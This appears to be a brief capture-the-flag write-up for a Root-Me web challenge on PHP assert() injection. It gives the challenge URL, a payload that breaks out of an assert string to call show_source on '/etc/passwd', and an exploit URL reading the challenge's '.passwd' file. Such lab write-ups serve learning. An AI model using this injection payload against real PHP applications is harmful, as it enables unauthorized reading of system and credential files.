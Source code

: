 # PHP ASSERT()

## DẠNG
`http://challenge01.root-me.org/web-serveur/ch47/?page=contact`

## PAYLOAD
`' and die(show_source('/etc/passwd')) or '`

## EXPLOIT
`http://challenge01.root-me.org/web-serveur/ch47/?page=contact' and die(show_source('.passwd')) or '`
